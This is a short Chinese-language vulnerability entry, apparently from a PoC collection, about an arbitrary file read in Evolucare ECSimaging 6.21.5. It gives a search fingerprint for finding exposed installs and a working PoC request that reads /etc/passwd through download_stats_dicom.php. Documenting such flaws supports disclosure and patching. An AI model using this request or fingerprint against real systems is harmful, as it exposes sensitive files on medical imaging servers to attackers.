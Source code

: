 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 6.21.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c-20220313153823825.png)

验证POC

```javascript
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![img](../../../.vuepress/public/img/1645546522769-c4a3e88c-e234-49f9-b1f6-2d49742683b0.png)